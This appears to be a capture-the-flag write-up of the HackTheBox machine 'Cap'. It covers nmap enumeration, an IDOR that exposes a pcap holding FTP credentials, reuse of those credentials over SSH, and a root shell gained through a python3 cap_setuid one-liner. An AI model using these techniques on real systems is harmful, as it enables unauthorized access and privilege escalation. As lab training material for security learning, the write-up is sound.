 ```yaml
---
title:     "Hack The Box - Cap"
tags: [linux,easy,idor,suid,capabilites,pcap,wireshark,python]
categories: HackTheBox
excerpt: "Cap is an easy rated machine on HackTheBox by [InfoSecJack](https://www.hackthebox.eu/home/users/profile/52045). For the user part we will find credentials for the ftp service in a pcap by abusing IDOR. These credentials are reused for ssh which gives us access to the machine as nathan. To get root we will then abuse the suid capability on python."
image: /img/cap/info_card.png
---
```


Cap is an easy rated machine on HackTheBox by [InfoSecJack](https://www.hackthebox.eu/home/users/profile/52045). For the user part we will find credentials for the ftp service in a pcap by abusing IDOR. These credentials are reused for ssh which gives us access to the machine as nathan. To get root we will then abuse the suid capability on python.

# User
## Nmap

As always we start our enumeration of with a nmap scan against all open ports, followed by a script and Version detection scan against the open ones to get an initial picture of the attack surface.

`All ports`

```js
$sudo nmap -p-  -T4  10.129.48.115
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 19:38 UTC
Nmap scan report for 10.129.48.115
Host is up (0.041s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 84.61 seconds
```

`Script and version`
```js
$sudo nmap -sC -sV -p21,22,80 10.129.48.115
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 19:40 UTC
Nmap scan report for 10.129.48.115
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 05 Jun 2021 19:42:02 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 05 Jun 2021 19:41:57 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 05 Jun 2021 19:41:57 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=6/5%Time=60BBD349%P=x86_64-pc-linux-gnu%r(GetRe

...[snip]...

SF:ck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.93 seconds
```

## Pcap

Port 80 seems to be the most promising inital target and going there we see a security dashboard with 3 different functionalities. We can download a PCAP, look at the IP configuration and look at the output of netstat.

[![home](/img/cap/home.png)](/img/cap/home.png)

Going over to the Security Snapshot PCAP we don't get any usefull information downloading the file presented. We can however change the number after `data` in the URL to download the first available pcap 0.

[![idor](/img/cap/idor.png)](/img/cap/idor.png)

Analyzing this PCAP in wireshark we see some HTTP and FTP traffic.

[![wireshark](/img/cap/wireshark.png)](/img/cap/wireshark.png)

Following the TCP-Stream for the FTP traffic reveals FTP credentials for the user nathan.

[![wireshark_follow](/img/cap/wireshark_follow.png)](/img/cap/wireshark_follow.png)

This credentials where reused for ssh which gives us access to the machine and the user flag.

```js
$ssh nathan@10.129.48.115
nathan@10.129.48.115's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jun  5 19:51:00 UTC 2021

  System load:           0.16
  Usage of /:            34.9% of 8.73GB
  Memory usage:          24%
  Swap usage:            0%
  Processes:             225
  Users logged in:       0
  IPv4 address for eth0: 10.129.48.115
  IPv6 address for eth0: dead:beef::250:56ff:feb9:172e

  => There are 3 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jun  5 19:18:28 2021 from 10.10.14.99
nathan@cap:~$ wc -c user.txt
33 user.txt
nathan@cap:~$
```

# Root
## Python Capability

Looking at the capabilites we see that python has the `cap_setuid` capability set. This means we can set the user id running python.

```js
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

We can abuse this quickly to get a shell as root by first importing `os`, setting the user id to 0 (root) and then spawning a bash shell. Now we can add the root flag to our collection.

```js
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# wc -c /root/root.txt
33 /root/root.txt
```
